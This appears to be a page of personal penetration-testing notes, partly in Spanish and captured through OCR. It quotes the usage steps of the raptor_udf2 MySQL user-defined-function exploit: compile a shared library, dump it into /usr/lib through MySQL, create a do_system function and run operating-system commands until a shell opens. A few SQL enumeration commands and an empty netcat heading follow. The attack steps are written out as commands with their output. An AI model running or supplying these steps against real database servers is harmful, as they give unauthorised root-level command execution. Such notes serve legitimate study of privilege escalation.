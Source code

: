 11:06

Searchsploit –m 1518

\* Usage:

\* $ id

\* uid=500(raptor) gid=500(raptor) groups=500(raptor)

\* $ gcc -g -c raptor\_udf2.c

\* $ gcc -g -shared -Wl,-soname,raptor\_udf2.so -o raptor\_udf2.so raptor\_udf2.o -lc

\* $ mysql -u root -p

\* Enter password:

\* [...]

\* mysql\&gt; use mysql;

\* mysql\&gt; create table foo(line blob);

\* mysql\&gt; insert into foo values(load\_file(&#39;/home/raptor/raptor\_udf2.so&#39;));

\* mysql\&gt; select \* from foo into dumpfile &#39;/usr/lib/raptor\_udf2.so&#39;; _\*\*\*\*Ojo en este punto por que puede salir un error donde iondique donde debe hacerse el dump_

\* mysql\&gt; create function do\_system returns integer soname &#39;raptor\_udf2.so&#39;;

\* mysql\&gt; select \* from mysql.func;

\* +-----------+-----+----------------+----------+

\* | name | ret | dl | type |

\* +-----------+-----+----------------+----------+

\* | do\_system | 2 | raptor\_udf2.so | function |

\* +-----------+-----+----------------+----------+

\* mysql\&gt; select do\_system(&#39;id \&gt; /tmp/out; chown raptor.raptor /tmp/out&#39;);

\* mysql\&gt; \! sh

\* sh-2.05b$ cat /tmp/out



-----------------------------------------------

Show databases;

Show tables;

Select \* from \&lt;table\&gt;;



# NETCAT (NC)

jueves, 7 de mayo de 2020
